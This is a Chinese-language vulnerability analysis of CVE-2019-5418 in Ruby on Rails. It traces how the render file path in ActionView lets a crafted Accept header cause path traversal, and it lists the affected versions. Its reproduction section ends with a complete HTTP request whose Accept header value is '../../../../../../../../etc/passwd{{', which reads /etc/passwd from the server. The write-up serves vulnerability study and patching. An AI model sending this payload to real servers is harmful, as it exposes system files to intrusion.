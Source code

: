（CVE-2019-5418）Ruby on Rails 路径穿越与任意文件读取漏洞
=========================================================

一、漏洞简介
------------

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

二、漏洞影响
------------

Ruby on Rails \< 6.0.0.beta3Ruby on Rails \< 5.2.2.1Ruby on Rails \< 5.1.6.2Ruby on Rails \< 5.0.7.2

三、复现过程
------------

### 漏洞分析

在控制器中通过`render file`形式来渲染应用之外的视图，因此在
actionview-5.2.1/lib/action\_view/renderer/template\_renderer.rb:22
中会根据 `options.key?(:file)`，调用`find_file`来寻找视图。

    module ActionView
      class TemplateRenderer < AbstractRenderer #:nodoc:
        # Determine the template to be rendered using the given options.
          def determine_template(options)
            keys = options.has_key?(:locals) ? options[:locals].keys : []
            if options.key?(:body)
              ...
            elsif options.key?(:file)
              with_fallbacks { find_file(options[:file], nil, false, keys, @details) }
            ...
          end
    end

`find_file`代码如下：

    def find_file(name, prefixes = [], partial = false, keys = [], options = {})
        @view_paths.find_file(*args_for_lookup(name, prefixes, partial, keys, options))
    end

继续跟入`args_for_lookup`函数，用于生成用于查找文件的参数，当其最终返回时会把payload保存在`details[formats]`中：![1.jpg](./.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId25.jpg)

此后回到`@view_paths.find_file`并跟入会进入
actionview-5.2.1/lib/action\_view/path\_set.rb：

    class PathSet #:nodoc:
        def find_file(path, prefixes = [], *args)
          _find_all(path, prefixes, args, true).first || raise(MissingTemplate.new(self, path, prefixes, *args))
        end
        private
        # 注，这里的 args 即前面args_for_lookup生成的details
            def _find_all(path, prefixes, args, outside_app)
                prefixes = [prefixes] if String === prefixes
                prefixes.each do |prefix|
                paths.each do |resolver|
                    if outside_app
                    templates = resolver.find_all_anywhere(path, prefix, *args)
                    else
                    templates = resolver.find_all(path, prefix, *args)
                    end
                    return templates unless templates.empty?
                end
                end
                []
            end

由于要渲染的视图在应用之外，因此跟入`find_all_anywhere`

    def find_all_anywhere(name, prefix, partial = false, details = {}, key = nil, locals = [])
        cached(key, [name, prefix, partial], details, locals) do
        find_templates(name, prefix, partial, details, true)
        end
    end

跳过`cached`部分，跟入`find_templates`，这里正式根据条件来查找要渲染的模板：

    # An abstract class that implements a Resolver with path semantics.
    class PathResolver < Resolver #:nodoc:
        EXTENSIONS = { locale: ".", formats: ".", variants: "+", handlers: "." }
        DEFAULT_PATTERN = ":prefix/:action{.:locale,}{.:formats,}{+:variants,}{.:handlers,}"

        ...

        private
            def find_templates(name, prefix, partial, details, outside_app_allowed = false)
                path = Path.build(name, prefix, partial)
                # 注意 details 与 details[:formats] 的传入
                query(path, details, details[:formats], outside_app_allowed)
            end

            def query(path, details, formats, outside_app_allowed)
                query = build_query(path, details)
                template_paths = find_template_paths(query)
                ...
                end
            end

build\_query后如下：![2.jpg](./.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId26.jpg)

利用`../`与前缀组合造成路径穿越，利用最后的`{{`完成闭合，经过File.expand\_path解析后组成的query如下:

    /etc/passwd{{},}{+{},}{.{raw,erb,html,builder,ruby,coffee,jbuilder},}

最后`/etc/passwd`被当成模板文件进行渲染，最后造成了任意文件读取。

### 漏洞复线

访问http://www.0-sec.org:3000/robots可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

    GET /robots HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: ../../../../../../../../etc/passwd{{
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![1.png](./.resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId28.png)
